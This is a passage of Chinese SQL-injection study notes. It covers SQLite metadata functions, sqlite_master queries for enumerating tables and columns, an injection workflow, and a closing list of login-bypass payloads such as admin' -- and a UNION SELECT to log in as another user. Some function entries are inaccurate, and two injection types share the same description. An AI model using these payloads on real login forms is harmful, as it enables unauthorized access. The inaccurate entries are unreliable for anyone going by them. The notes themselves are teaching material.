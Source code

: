 **字符串函数**

* sqlite\_version()：显示数据库版本
* sqlite\_source\_id()：显示数据库源码ID
* sqlite\_user\_version()：显示数据库用户版本

**功能函数**

* ascii(str)：返回字符串第一个字符的ASCII码
* char(num)：返回ASCII码对应的字符
* substr(str,pos,len)：截取字符串
* sleep(5)：让数据库等待5秒

#### sqlite\_master表

* type：对象类型
* name：对象名
* tbl\_name：表名
* sql：建表语句

```sql
-- 获取当前数据库所有表名
SELECT name FROM sqlite_master WHERE type = 'table';
```

```sql
-- 获取某个表的所有列名
SELECT sql FROM sqlite_master WHERE type = 'table' AND name = 'xxx';
```

## 基本流程

1. 判断是否存在注入点
   * 必要条件：用户输入的内容可以成为SQL语句的一部分
   * 可能存在的注入点：GET/POST/COOKIE/HTTP头/Referer/Server等
2. 判断注入类型
   * 联合查询注入：在一条语句中执行多条语句
   * 布尔型注入：根据页面返回的结果判断是否存在注入
   * 报错注入：根据页面返回的错误信息判断是否存在注入
   * 堆叠注入：在一条语句中执行多条语句
   * 盲注：根据页面返回的结果判断是否存在注入
3. 获取信息
   * 库名->表名->列名->SELECT <列名> FROM <表名>

## 万能密码

* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`
* 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
